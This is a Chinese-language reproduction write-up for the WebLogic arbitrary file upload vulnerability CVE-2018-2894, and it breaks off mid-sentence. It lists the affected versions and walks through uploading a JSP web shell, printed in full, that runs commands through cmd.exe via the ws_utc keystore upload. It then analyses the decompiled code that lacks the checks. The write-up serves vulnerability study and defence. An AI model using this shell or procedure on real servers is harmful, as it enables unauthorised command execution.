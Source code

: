 （CVE-2018-2894）WebLogic任意文件上传
=====================================

一、漏洞简介
------------

二、漏洞影响
------------

漏洞影响版本：10.3.6.0, 12.1.3.0, 12.2.1.2, 12.2.1.3

三、复现过程
------------

下载地址：<http://download.oracle.com/otn/nt/middleware/12c/12213/fmw_12.2.1.3.0_wls_quick_Disk1_1of1.zip>

漏洞复现

服务启动后，访问 <http://localhost:7001/ws_utc/config.do>

![](./.resource/(CVE-2018-2894)Weblogic任意文件上传/media/rId26.png)

可以将当前的工作目录为更改为其他目录。以本地环境为例，可以部署到

    C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\com.oracle.webservices.wls.ws-testclient-app-wls\4mcj4y\war

选择右边的安全栏目，添加JKS Keystores上传文件。假设chybeta.jsp内容如下：

    <%@ page import="java.util.*,java.io.*,java.net.*"%>
    <HTML><BODY>
    <FORM METHOD="POST" NAME="myform" ACTION="">
    <INPUT TYPE="text" NAME="cmd">
    <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <%
    if (request.getParameter("cmd") != null) {
            out.println("Command: " + request.getParameter("cmd") + "\n<BR>");
            Process p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("cmd"));
            OutputStream os = p.getOutputStream();
            InputStream in = p.getInputStream();
            DataInputStream dis = new DataInputStream(in);
            String disr = dis.readLine();
            while ( disr != null ) {
                    out.println(disr); disr = dis.readLine(); }
            }
    %>
    </pre>
    </BODY></HTML>

抓包获取到时间戳为1531987145013，则上传到的位置即config\\keystore\\1531987145013\_chybeta.jsp

![](./.resource/(CVE-2018-2894)Weblogic任意文件上传/media/rId27.png)

访问<http://localhost:7001/ws_utc/config/keystore/1531987145013_chybeta.jsp>

![](./.resource/(CVE-2018-2894)Weblogic任意文件上传/media/rId29.png)

简要漏洞分析

在ws-testpage-impl.jar!/com/oracle/webservices/testclient/setting/TestClientWorkDirManager.class:59:

    public void changeWorkDir(String path) {
        String[] oldPaths = this.getRelatedPaths();
        if (this.testPageProvider.getWsImplType() == ImplType.JRF) {
            this.isWorkDirChangeable = false;
            this.isWorkDirWritable = isDirWritable(path);
            this.isWorkDirChangeable = true;
            this.setTestClientWorkDir(path);
        } else {
            this.persistWorkDir(path);
            this.init();
        }
        if (this.isWorkDirWritable) {
            String[] newPaths = this.getRelatedPaths();
            moveDirs(oldPaths, newPaths);
        } else {
            Logger.fine("[INFO] Newly specified TestClient Working Dir is readonly. Won't move the configuration stuff to new path.");
        }
    }

此函数用于改变工作目录，但其中并未做任何检测。

在ws-testpage-impl.jar!/com/oracle/webservices/testclient/ws/res/SettingResource.class:181中：

    @Path("/keystore")
    @POST
    @Produces({"application/xml", "application/json"})
    @Consumes({"multipart/form-data"})
    public Response editKeyStoreSettingByMultiPart(FormDataMultiPart formPartParams) {
        if (!RequestUtil.isRequstedByAdmin(this.request)) {
            return Response.status(Status.FORBIDDEN).build();
        } else {
            if (TestClientRT.isVerbose()) {
                Logger.fine("calling SettingResource.addKeyStoreSettingByMultiPart");
            }
            String currentTimeValue = "" + (new Date()).getTime();
            KeyValuesMap<String, String> formParams = RSDataHelper.getInstance().convertFormDataMultiPart(formPartParams, true, TestClientRT.getKeyStorePath(), currentTimeValue);
            ....
        }
    }

跟入ws-testpage-impl.jar!/com/oracle/webservices/testclient/core/ws/cdf/config/parameter/TestClientRT.class:31

    public static String getKeyStorePath() {
        return getConfigDir() + File.separator + "keystore";
    }

得到要写入的路径storePath。

在ws-testpage-impl.jar!/com/oracle/webservices/testclient/ws/util/RSDataHelper.class:145:

    public KeyValuesMap<String, String> convertFormDataMultiPart(FormDataMultiPart formPartParams, boolean isExtactAttachment, String path, String fileNamePrefix) {
        ...
        if (attachName != null && attachName.trim().length() > 0) {
            if (attachName != null && attachName.trim().length() != 0) {
                attachName = this.refactorAttachName(attachName);
                if (fileNamePrefix == null) {
                    fileNamePrefix = key;
                }
                String filename = (new File(storePath, fileNamePrefix + "_" + attachName)).getAbsolutePath();
                kvMap.addValue(key, filename);
                if (isExtactAttachment) {
                    this.saveAttachedFile(filename, (InputStream)bodyPart.getValueAs(InputStream.class));
                }
            }
        } 
        ...
    }

把上传文件的内容传到了storePath目录里，文件名满足fileNamePrefix + \"\_\"
+ attachName。这过程没有任何过滤和检查：）...

利用条件：

需要知道部署应用的web目录

ws\_utc/config.do在开发模式下无需认证，在生产模式下需要认证。具体可见Oracle®
Fusion Middleware Administering We
